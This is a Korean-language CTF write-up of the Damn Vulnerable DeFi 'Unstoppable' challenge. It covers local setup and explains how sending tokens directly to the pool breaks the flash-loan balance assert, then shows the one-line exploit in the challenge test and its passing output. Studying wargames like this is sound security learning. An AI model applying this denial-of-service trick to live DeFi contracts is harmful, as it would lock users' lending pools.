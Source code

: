 ```yaml
---
title: "DamnVulnerableDefi Unstoppable 풀이"
author: IceBear
categories:
  - Wargame
tags:
  - DamnVulnerableDefi
  - Unstoppable
  - Writeup

sitemap :
changefreq : daily
priority : 1.0
# table of contents
toc: true # 오른쪽 부분에 목차를 자동 생성해준다.
toc_label: "table of content" # toc 이름 설정
toc_icon: "bars" # 아이콘 설정
toc_sticky: true # 마우스 스크롤과 함께 내려갈 것인지 설정
---
```


[Damn Vulnerable DeFi]는 DeFi Smart Contract를 대상으로 하는 Wargame 사이트이다.
![Damn Vulnerable DeFi](/assets/images_post/2022-01-25-DamnVulnerableDefi-Unstoppable/damnvulnerabledefi.png)
해당 문제들을 풀어보면서 DeFi Smart Contract에서 발생하는 취약점 유형을 학습할 수 있다.
먼저 Wargame 문제 풀이를 위한 환경설정을 정리하고, 1번 챌린지인 Unstoppable을 풀어보도록 한다. 

## 환경설정

먼저 문제 Repository를 Clone 한다.
~~~
git clone https://github.com/OpenZeppelin/damn-vulnerable-defi.git
~~~

그리고 자바스크립트 패키지 매니저인 yarn을 설치한다.(여기서는 Mac 기준)
~~~
brew install yarn
~~~

그 뒤 yarn을 통해 필요한 패키지들을 설치한다.
~~~
yarn install
~~~

설치가 정상적으로 잘 되면 damn-vulnerable-defi 폴더로 이동하여 npm 명령을 통해 사용가능한 챌린지들을 확인할 수 있다.
~~~
➜  damn-vulnerable-defi ✗ npm run
Lifecycle scripts included in undefined:
  test
    npm run compile && npx mocha --timeout 5000 --exit --recursive test

available via `npm run-script`:
  unstoppable
    npm run compile && npx mocha --timeout 5000 --exit test/unstoppable/unstoppable.challenge.js
  truster
    npm run compile && npx mocha --timeout 5000 --exit test/truster/truster.challenge.js
  naive-receiver
    npm run compile && npx mocha --timeout 5000 --exit test/naive-receiver/naive-receiver.challenge.js
  side-entrance
    npm run compile && npx mocha --timeout 5000 --exit test/side-entrance/side-entrance.challenge.js
  the-rewarder
    npm run compile && npx mocha --timeout 5000 --exit test/the-rewarder/the-rewarder.challenge.js
  selfie
    npm run compile && npx mocha --timeout 5000 --exit test/selfie/selfie.challenge.js
  compromised
    npm run compile && npx mocha --timeout 5000 --exit test/compromised/compromised.challenge.js
  puppet
    npm run compile && npx mocha --timeout 5000 --exit test/puppet/puppet.challenge.js
  compile
    npx buidler compile
~~~

Wargame은 [OpenZeppelin Test Helper]를 통해 로컬에서 테스트할 수 있다.
각 문제에 대한 Exploit 코드는 test 폴더 밑 해당 문제 폴더에 존재하는 challenge.js 파일내에 추가하면 된다.
Unstoppable 문제의 js 파일을 보면 다음과 같이 친절하게 Exploit을 작성할 부분을 정의해두었다.
~~~
...
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
});
...
~~~
그리고 npm 명령을 통해 Exploit을 실행할 수 있다.
~~~
npm run unstoppable
~~~

## Unstoppable 풀이

Contract 파일인 UnstoppableLender.sol 내 flashloan 함수는 다음과 같다.
~~~
function flashLoan(uint256 borrowAmount) external nonReentrant {
  require(borrowAmount > 0, "Must borrow at least one token");

  uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
  require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

  // Ensured by the protocol via the `depositTokens` function
  assert(poolBalance == balanceBefore);
        
  damnValuableToken.transfer(msg.sender, borrowAmount);
        
  IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
        
  uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
  require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
~~~

코드 중간에 assert로 poolBalance와 balanceBefore가 같음을 확인한다.
balanceBefore는 바로 위에서 해당 주소의 balance를 가지고 옴을 알 수 있다.
그에 반해 poolBalance는 전역 변수로 depositTokens 함수를 통해서만 추가될 수 있다.
~~~
...
uint256 public poolBalance;
...
function depositTokens(uint256 amount) external nonReentrant {
  require(amount > 0, "Must deposit at least one token");
  // Transfer token from sender. Sender must have first approved them.
  damnValuableToken.transferFrom(msg.sender, address(this), amount);
  poolBalance = poolBalance + amount;
}
...
~~~

하지만 ERC20 표준에 따라 transfer 함수를 통해 해당 contract에 token을 전송할 수 있다.
그럴 경우 balanceBefore 값이 증가하게 되고, 따라서 poolBalance 값과 balanceBefore 값이 불일치하게 된다.
이를 위한 js 파일내 exploit 코드는 다음과 같다.
~~~
...
it('Exploit', async function () {
    /** YOUR EXPLOIT GOES HERE */
    await this.token.transfer(this.pool.address, ether('1'), {from: attacker });
    });
...
~~~

이를 npm으로 실행하면 다음 결과를 얻는다.
~~~
➜  damn-vulnerable-defi ✗ npm run unstoppable

> unstoppable
> npm run compile && npx mocha --timeout 5000 --exit test/unstoppable/unstoppable.challenge.js


> compile
> npx buidler compile

All contracts have already been compiled, skipping compilation.


  [Challenge] Unstoppable
    ✓ Exploit (50ms)


  1 passing (757ms)
~~~

## 마치며

DeFi에서 사용하는 Pool을 관리하는데 있어 Balance가 다양한 방식으로 조절될 수 있다.
특히 여러 체인을 연계하는 서비스의 경우 자체적으로 각 Token에 대한 Balance를 가지고 관리하는 경우 이러한 문제가 발생할 수 있다.


[Damn Vulnerable DeFi]: https://www.damnvulnerabledefi.xyz 
[OpenZeppelin Test Helper]: https://docs.openzeppelin.com/test-helpers/0.5/
